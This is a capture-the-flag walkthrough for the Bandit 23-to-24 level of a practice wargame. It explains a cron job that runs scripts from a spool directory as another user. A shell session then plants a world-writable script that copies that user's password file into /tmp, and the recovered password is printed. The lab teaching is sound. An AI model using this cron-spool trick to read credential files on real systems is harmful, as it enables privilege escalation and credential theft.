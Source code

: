 ```

Inside the for loop, each file undergoes the
if [ “$i” != “.” -a “$i” != “..” ]; conditional statements to check if 
the file is a "." hidden file or 
from ".." previous directory 

If the file is both NOT a hidden file and from previous directory, it will execute the file for 60 seconds before deleting it using rm -f ./$i command.

Since cronjob_bandit24.sh file is run by user bandit24, all these executable shell scripts in /var/spool/bandit24 directory will be executed by user bandit24. 

Therefore, if we create our own script in /var/spool/bandit24 directory, it will be executed as bandit24 and deleted after 60 seconds.
```
### Note2: Create a file pass.sh under /tmp/bandit23. Copy it to /var/spool/bandit24 directory so that it will be executed during cronjob. Write a script in the pass.sh file to redirect the password of bandit24 into the file bandit24pass. Make the file pass.sh and the directory bandit23 have read, write and execute permissions.
```

bandit23@bandit:~$ mkdir /tmp/mybandit23               #create a directory mybandit23 under temp
bandit23@bandit:~$ chmod 777 /tmp/mybandit23           #provide read, write, execute access for user, group and others for this directory
bandit23@bandit:~$ cd /tmp/mybandit23                  #navigate to mybandit23
bandit23@bandit:/tmp/mybandit23$ vim pass.sh           #create a file pass.sh at this path using vim
                                                       #the above command opens pass.sh file using vim
                                                       #press i for insert mode in vim
                                                       #type the below script to redirect the password into bandit24pass file
                                                       #!/bin/bash
                                                       #cat /etc/bandit_pass/bandit24 > /tmp/mybandit23/bandit24pass
                                                       #press Esc to get into command mode
                                                       #run :wq to save and close the vim

bandit23@bandit:/tmp/mybandit23$ cat pass.sh           #when the vim is closed, read the pass.sh file to check for its contents
#!/bin/bash                                                         #the entered script is present
cat /etc/bandit_pass/bandit24 > /tmp/mybandit23/bandit24pass        #the entered script is present

bandit23@bandit:/tmp/mybandit23$ chmod 777 pass.sh                  #provide read, write, execute access for user, group and others for this file

bandit23@bandit:/tmp/mybandit23$ cp pass.sh /var/spool/bandit24/    #copy this file into /var/spool/bandit24/ to be executed by bandit24

bandit23@bandit:/tmp/mybandit23$ ls                                 #see the contents of mybandit23 directory after a minute
bandit24pass  pass.sh

bandit23@bandit:/tmp/mybandit23$ cat bandit24pass                   #read bandit24pass file to see the password of bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

bandit23@bandit:/tmp/mybandit23$ rm -rf /tmp/mybandit23             #delete the created mybandit23 directory

```